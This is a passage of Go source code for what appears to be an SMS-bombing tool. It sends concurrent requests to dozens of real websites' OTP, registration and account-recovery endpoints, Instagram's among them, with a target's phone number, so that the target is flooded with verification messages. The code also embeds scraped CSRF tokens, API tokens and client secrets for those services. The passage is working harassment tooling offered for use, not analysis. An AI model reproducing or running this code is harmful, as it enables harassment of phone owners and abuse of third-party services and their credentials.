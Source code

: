 		go sms("https://crm.see5.net/api_ajax/sendotp.php", map[string]interface{}{
			s27: phone,
		}, ch)
		s28 := fmt.Sprintf("'mobileNumber': %s,'ReSendSMS': 'False'", phone)
		go sms("https://www.simkhanapi.ir/api/users/registerV2", map[string]interface{}{
			s28: phone,
		}, ch)
		s29 := fmt.Sprintf("'mobileNumber': %s,'country': '1'", phone)
		go sms("https://my.limoome.com/api/auth/login/otp", map[string]interface{}{
			s29: phone,
		}, ch)
		s30 := fmt.Sprintf("_token=bBSxMx7ifcypKJuE8qQEhahIKpcVApWdfZXFkL8R&mobile=%s&recaptcha=", phone)
		go sms("https://www.mihanpezeshk.com/ConfirmCodeSbm_Patient", map[string]interface{}{
			s30: phone,
		}, ch)
		s32 := fmt.Sprintf("number=%s&state=number&", phone)
		go sms("https://i.devslop.app/app/ifollow/api/otp.php/", map[string]interface{}{
			s32: phone,
		}, ch)
		s33 := fmt.Sprintf("action=digits_check_mob&countrycode=%2B98&mobileNo=%s&csrf=3b4194a8bb&login=2&username=&email=&captcha=&captcha_ses=&digits=1&json=1&whatsapp=0&digits_reg_%D9%81%DB%8C%D9%84%D8%AF%D9%85%D8%AA%D9%86%DB%8C1642498931181=Nvgu&digregcode=%2B98&digits_reg_mail=%s&dig_otp=&code=&dig_reg_mail=&dig_nounce=3b4194a8bb", phone, phone)
		go sms("https://behzadshami.com/wp-admin/admin-ajax.php", map[string]interface{}{
			s33: phone,
		}, ch)
		s34 := fmt.Sprintf("'apiToken':'VyG4uxayCdv5hNFKmaTeMJzw3F95sS9DVMXzMgvzgXrdyxHJGFcranHS2mECTWgq','clientSecret':'7eVdaVsYXUZ2qwA9yAu7QBSH2dFSCMwq','device':'web','username':%s", phone)
		go sms("https://restaurant.delino.com/user/register", map[string]interface{}{
			s34: phone,
		}, ch)
		go sms("http://shop.tnovin.com/login", map[string]interface{}{
			"phone": phone,
		}, ch)
		s35 := fmt.Sprintf("'mobile':%s,'countryCode':98,'device_os':2", phone)
		go sms("https://dastkhat-isad.ir/api/v1/user/store", map[string]interface{}{
			s35: phone,
		}, ch)
		s36 := fmt.Sprintf("fullname=%D9%85%D9%85%D8%AF&phoneNumber=%s&register=", phone)
		go sms("https://hamlex.ir/register.php", map[string]interface{}{
			s36: phone,
		}, ch)
		s37 := fmt.Sprintf("againkey=%s&cache=false", phone)
		go sms("https://moshaveran724.ir/m/pms.php", map[string]interface{}{
			s37: phone,
		}, ch)
		s38 := fmt.Sprintf("'phone_number':%s,'os_type':'W'", phone)
		go sms("https://account.api.balad.ir/api/web/auth/login/", map[string]interface{}{
			s38: phone,
		}, ch)
		s39 := fmt.Sprintf("'userKey':%s,'userKeyType':1", phone)
		go sms("https://app.flightio.com/bff/Authentication/CheckUserKey", map[string]interface{}{
			s39: phone,
		}, ch)
		s40 := fmt.Sprintf("mobile=%s&__RequestVerificationToken=lqpAP86cm6ubwUoSRlGeHdrLJ90KhrBSHzLZ7_rAQ5dAZT-q__KWOkJ3TRoPtz8Q13HaLVCmcfsB1itFNtrvVbX0xWE1", phone)
		go sms("https://www.foodcenter.ir/account/sabtmobile", map[string]interface{}{
			s40: phone,
		}, ch)

		s41 := fmt.Sprintf("'mobileOrEmail':%s,'deviceCode':'d520c7a8-421b-4563-b955-f5abc56b97ec','firstName':'','lastName':'','password':''", phone)
		go sms("https://auth.homtick.com/api/V1/User/GetVerifyCode", map[string]interface{}{
			s41: phone,
		}, ch)
		s42 := fmt.Sprintf("'optype':15,'userid':0,'mobile':%s,'firstname':'','lastname':'','cityid':0,'email':'','birthdate':'','gender':'False','avatarid':0,'packagename':'','versioncode':-1,'tokenkey':'','username':'','password':'','connectionname':'MainConStr'", phone)
		go sms("https://app.kardoon.ir:4433/api/users", map[string]interface{}{
			s42: phone,
		}, ch)
		s43 := fmt.Sprintf("'phoneNumber':%s,'email':''", phone)
		go sms("https://abantether.com/users/register/phone/send/", map[string]interface{}{
			s43: phone,
		}, ch)
		s44 := fmt.Sprintf("'Token':'5c486f96df46520d1e4d4a998515b1de02392c9b903a7734ec2798ec55be6e5c','DeviceId':1,'PhoneNumber':%s,'Helper':77942", phone)
		go sms("https://amoomilad.demo-hoonammaharat.ir/api/v1.0/Account/Sendcode", map[string]interface{}{
			s44: phone,
		}, ch)
		s45 := fmt.Sprintf("action=digits_check_mob&countrycode=%2B98&mobileNo=%s&csrf=54dfdabe34&login=1&username=&email=&captcha=&captcha_ses=&digits=1&json=1&whatsapp=0&mobmail=%s&dig_otp=&dig_nounce=54dfdabe34", phone, phone)
		go sms("https://ashraafi.com/wp-admin/admin-ajax.php", map[string]interface{}{
			s45: phone,
		}, ch)
		s46 := fmt.Sprintf("action=digits_check_mob&countrycode=%2B98&mobileNo=%s&csrf=ec10ccb02a&login=2&username=&email=&captcha=&captcha_ses=&digits=1&json=1&whatsapp=0&digregcode=%2B98&digits_reg_mail=%s&digits_reg_password=fuckYOU&dig_otp=&code=&dig_reg_mail=&dig_nounce=ec10ccb02a", phone, phone)
		go sms("https://bandarazad.com/wp-admin/admin-ajax.php", map[string]interface{}{
			s46: phone,
		}, ch)
		s47 := fmt.Sprintf("action=digits_check_mob&countrycode=%2B98&mobileNo=%s&csrf=c0f5d0dcf2&login=1&username=&email=&captcha=&captcha_ses=&digits=1&json=1&whatsapp=0&mobmail=%s&dig_otp=&digits_login_remember_me=1&dig_nounce=c0f5d0dcf2", phone, phone)
		go sms("https://bazidone.com/wp-admin/admin-ajax.php", map[string]interface{}{
			s47: phone,
		}, ch)
		s48 := fmt.Sprintf("action=digits_check_mob&countrycode=%2B98&mobileNo=%s&csrf=94cf3ad9a4&login=2&username=&email=&captcha=&captcha_ses=&digits=1&json=1&whatsapp=0&digits_reg_name=%D8%A8%DB%8C%D8%A8%D9%84%DB%8C%D9%84&digregcode=%2B98&digits_reg_mail=%s&digregscode2=%2B98&mobmail2=&digits_reg_password=&dig_otp=&code=&dig_reg_mail=&dig_nounce=94cf3ad9a4", phone, phone)
		go sms("https://www.bigtoys.ir/wp-admin/admin-ajax.php", map[string]interface{}{
			s48: phone,
		}, ch)
		go sms(fmt.Sprintf("https://bitex24.com/api/v1/auth/sendSms?mobile=%s&dial_code=0", phone), map[string]interface{}{
			"esfelurm": "esfelurm",
		}, ch)
		s49 := fmt.Sprintf("action=digits_check_mob&countrycode=%2B98&mobileNo=%s&csrf=79a35b4aa3&login=2&username=&email=&captcha=&captcha_ses=&digits=1&json=1&whatsapp=0&digits_reg_name=%D9%86%DB%8C%D9%85%D9%86%D9%85%D9%85%D9%86%DB%8C%D8%B3&digits_reg_lastname=%D9%85%D9%86%D8%B3%DB%8C%D8%B2%D8%AA%D9%86&digregscode2=%2B98&mobmail2=&digregcode=%2B98&digits_reg_mail=%s&dig_otp=&code=&dig_reg_mail=&dig_nounce=79a35b4aa3", phone, phone)
		go sms("https://farsgraphic.com/wp-admin/admin-ajax.php", map[string]interface{}{
			s49: phone,
		}, ch)
		s50 := fmt.Sprintf("email_or_username=%2B%s&recaptcha_challenge_field=&flow=&app_id=&source_account_id=", phone)
		go sms("https://www.instagram.com/accounts/account_recovery_send_ajax/", map[string]interface{}{
			s50: phone,
		}, ch)
		s51 := fmt.Sprintf("action=digits_check_mob&countrycode=%2B98&mobileNo=%s&csrf=d33076d828&login=2&username=&email=&captcha=&captcha_ses=&digits=1&json=1&whatsapp=0&digregscode2=%2B98&mobmail2=&digregcode=%2B98&digits_reg_mail=%s&digits_reg_password=mahyar125&dig_otp=&code=&dig_reg_mail=&dig_nounce=d33076d828", phone, phone)
		go sms("https://shop.hemat-elec.ir/wp-admin/admin-ajax.php", map[string]interface{}{
			s51: phone,
		}, ch)
		s52 := fmt.Sprintf("action=digits_check_mob&countrycode=%2B98&mobileNo=%s&csrf=2d39af0a72&login=2&username=&email=&captcha=&captcha_ses=&digits=1&json=1&whatsapp=0&digregcode=%2B98&digits_reg_mail=%s&digregscode2=%2B98&mobmail2=&dig_otp=&code=&dig_reg_mail=&dig_nounce=2d39af0a72", phone, phone)
		go sms("https://www.mipersia.com/wp-admin/admin-ajax.php", map[string]interface{}{
			s52: phone,
		}, ch)
		s53 := fmt.Sprintf("action=digits_check_mob&countrycode=%2B98&mobileNo=%s&csrf=18551366bc&login=2&username=&email=&captcha=&captcha_ses=&digits=1&json=1&whatsapp=0&digits_reg_lastname=%D9%84%D8%A8%D8%A8%DB%8C%DB%8C%D8%A8%D8%AB%D9%82%D8%AD&digits_reg_displayname=%D8%A8%D8%A8%D8%A8%DB%8C%D8%B1%D8%A8%D9%84%D9%84%DB%8C%D8%A8%D9%84&digregscode2=%2B98&mobmail2=&digregcode=%2B98&digits_reg_mail=%s&digits_reg_password=&digits_reg_avansbirthdate=2003-03-21&jalali_digits_reg_avansbirthdate1867119037=1382-01-01&dig_otp=&code=&dig_reg_mail=&dig_nounce=18551366bc", phone, phone)
		go sms("https://www.kodakamoz.com/wp-admin/admin-ajax.php", map[string]interface{}{
			s53: phone,
		}, ch)
		s54 := fmt.Sprintf("mobile=%s&password=mamad1234", phone)
		go sms("https://tajtehran.com/RegisterRequest", map[string]interface{}{
			s54: phone,
		}, ch)
		s55 := fmt.Sprintf("action=digits_check_mob&countrycode=%2B98&mobileNo=%s&csrf=0864ed5c9b&login=2&username=&email=&captcha=&captcha_ses=&digits=1&json=1&whatsapp=0&digregcode=%2B98&digits_reg_mail=%s&dig_otp=&code=&dig_reg_mail=&dig_nounce=0864ed5c9b", phone, phone)
		go sms("https://zivanpet.com/wp-admin/admin-ajax.php", map[string]interface{}{
			s55: phone,
		}, ch)
		s56 := fmt.Sprintf("'mobile':%s,'deviceTypeCode':0,'confirmTerms':'True','notRobot':'False'", phone)
		go sms("https://api-react.okala.com/C/CustomerAccount/OTPRegister", map[string]interface{}{
			s56: phone,
		}, ch)
		go sms("https://client.api.paklean.com/user/resendVoiceCode", map[string]interface{}{
			"username": phone,
		}, ch)
		go sms("https://web.raghamapp.com/api/users/code", map[string]interface{}{
			"phone": phone,
		}, ch)
		go sms("https://gateway.trip.ir/api/registers", map[string]interface{}{
			"CellPhone": phone,
		}, ch)
		go sms("https://gateway.trip.ir/api/Totp", map[string]interface{}{
			"PhoneNumber": phone,
		}, ch)

	}

	for i := 0; i < repeatCount*183; i++ {
		statusCode := <-ch
		if statusCode == 404 || statusCode == 400 {
			fmt.Println("\033[01;31m[-] Error ! ")
		} else {
			fmt.Println("\033[01;31m[\033[01;32m+\033[01;31m] \033[01;33mSended")
		}

	}
}

/*
End !
